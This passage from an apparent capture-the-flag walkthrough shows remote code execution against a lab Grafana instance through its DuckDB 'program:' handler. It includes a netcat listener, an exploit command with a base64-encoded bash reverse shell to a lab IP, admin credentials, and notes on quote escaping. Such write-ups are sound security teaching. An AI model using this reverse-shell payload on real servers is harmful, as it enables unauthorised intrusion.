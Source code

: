 After confirming everything works, we confidently launch Netcat wrapped in `rlwrap` to conveniently navigate command history with the arrow keys:

```bash
rlwrap nc -lvnp 8888
```

```bash
python3 exploit.py -u admin -p 0D5oT70Fq13EvB5r -c "program:"bash -c 'echo YmFzaCAtYyBiYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE0LjEwNy84ODg4IDA+JjE= | base64 -d | bash'" " http://grafana.planning.htb
```
The exploit targets Grafana’s DuckDB integration, which expects a valid “file path” (e.g. a CSV) – so if you send a raw shell command, DuckDB will reject it as an “invalid path.” By using the `program:` prefix, you tell Grafana to treat the string as a command to execute rather than a filename.  

Additionally, you must properly escape the nested quotes and URL-or HTTP-parameter-safe characters. If you just sent a plain bash reverse shell, Grafana/DuckDB would:  
- Reject the payload as a broken CSV path  
- Return an “Unexpected response format” error  

With `-c "program:\"bash -c '…'\""`, you:  
1. **Trigger command execution** via DuckDB’s `program:` URI handler  
2. **Preserve embedded quotes** around your `bash -c '…'` payload  
3. **Avoid format errors** by satisfying Grafana’s parser expectations  

This precise encoding ensures the reverse shell is decoded and executed, rather than being treated as a malformed file path.  

After this, we gain access to the system.

## 4. Privilege Escalation to root 
<p align="center">
